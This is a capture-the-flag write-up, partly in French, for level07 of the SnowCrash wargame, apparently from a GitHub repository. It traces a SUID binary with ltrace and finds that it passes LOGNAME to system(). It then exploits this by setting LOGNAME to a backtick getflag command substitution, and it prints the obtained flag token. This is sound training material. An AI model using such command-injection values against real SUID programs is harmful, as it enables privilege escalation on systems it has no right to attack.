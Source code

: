 # Level 07

</br></br>

## file list in home

```zsh
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

un SUID executable existe!

</br></br>

## check level07

```zsh
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                         = 2007
geteuid()                                                                         = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                               = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                               = 0
getenv("LOGNAME")                                                                 = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280)               = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```

on peut mettre "\`getflag`\" à LOGNAME
et level07 sera getflag

</br></br>

## execute level07

```zsh
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
```
